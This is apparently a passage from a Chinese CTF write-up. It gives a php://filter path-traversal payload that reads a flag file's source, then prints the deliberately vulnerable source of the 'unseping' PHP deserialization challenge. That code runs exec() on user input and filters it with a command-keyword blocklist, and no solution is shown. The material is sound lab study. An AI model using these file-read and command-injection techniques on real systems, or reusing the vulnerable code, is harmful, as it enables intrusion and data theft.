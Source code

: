 最后payload

```
php://filter/read=convert.base64-encode/resource=woofers/../flag
```

这里解释一下`woofers/../flag`，将`woofers`当作一个文件夹，然后进去再退出来找`flag.php` == 找当前文件夹下的flag.php

## 攻防世界 unseping

考点：PHP反序列化

```php
<?php
highlight_file(__FILE__);

class ease{
    
    private $method;
    # 要执行的系统命令
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        # 要求 method="ping"
        if (in_array($this->method, array("ping"))) {
            # 两个参数都必须为数组
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}

$ctf=@$_POST['ctf'];
@unserialize(base64_decode($ctf));
?>
```
